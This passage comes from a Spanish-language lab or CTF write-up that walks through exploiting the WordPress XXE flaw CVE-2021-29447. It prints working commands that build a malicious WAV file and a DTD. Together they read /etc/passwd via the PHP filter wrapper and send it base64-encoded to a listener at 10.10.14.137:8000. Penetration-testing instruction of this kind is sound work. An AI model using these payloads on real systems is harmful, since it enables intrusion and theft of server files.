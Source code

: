 * [wav file](https://en.wikipedia.org/wiki/WAV): Formato de audio digital.
* [dtd file](https://www.w3schools.com/xml/xml_dtd_intro.asp): Un objeto DTD (Documento para la Definición de Tipos) declara la estructura de los elementos y atributos de un documento **XML**.

---

### Ahora si explotemos este XXE... [📌](#wp-xxe-steps) {#wp-xxe-steps}

El [PoC](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5) nos indica que debemos crear dos objetos, un `.wav` y un `.dtd`, en el **wav** lo que hacemos es simplemente consultar el objeto **dtd** que es el que tiene toda la locura (:

La cosa es que ese PoC no me generaba las peticiones al servidor donde tenía los objetos, busque y encontré este:

* [https://github.com/motikan2010/CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447)

Que es exactamente lo mismo (solo que probablemente el formato estaba erróneo o algún typo), generamos los objetos:

📁 **malicious.wav**:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.137:8000/xxe.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav
```

📁 **xxe.dtd**:

```bash
echo '<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">' >> xxe.dtd
echo -ne '<!ENTITY % init "<!ENTITY &#37; trick SYSTEM '"'"'http://10.10.14.137:8000/?content=%file;'"'"'>" >' >> xxe.dtd
```

Ya tendríamos los objetos, ahora entendamos qué pasa con ellos:

1. Vamos a tener un servidor web donde estén alojados los objetos.
2. El archivo **wav** hace un llamado a nuestro servidor en busca del objeto **dtd** mediante la entidad `remote` (que si nos fijamos es la primera que ejecuta: `%remote;`...)
3. Después llama la entidad `init` que está definida en nuestro **dtd**.
4. Esa entidad a su vez declara otra llamada `trick` la cual hará una petición hacia nuestro servidor enviando el contenido de la entidad `file`.
5. ¿Y qué tiene la entidad `file`? En este caso el archivo `/etc/passwd` (contiene los usuarios del sistema) encodeado en **base64** mediante el [wrapper **filter** de **PHP**](https://deephacking.tech/php-wrappers-pentesting-web/#php-filter). ¿Pero para qué lo encodeamos? Así evitamos que el objeto en dado caso sea interpretado/ejecutado y no leído.
6. Lo que obtendríamos entonces sería una petición con una cadena en **base64** la que al decodearla nos daría <u>el contenido del archivo en CRUDO!</u>.

Pues listooooos hagámosle, levantamos servidor web:

```bash
❯ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```
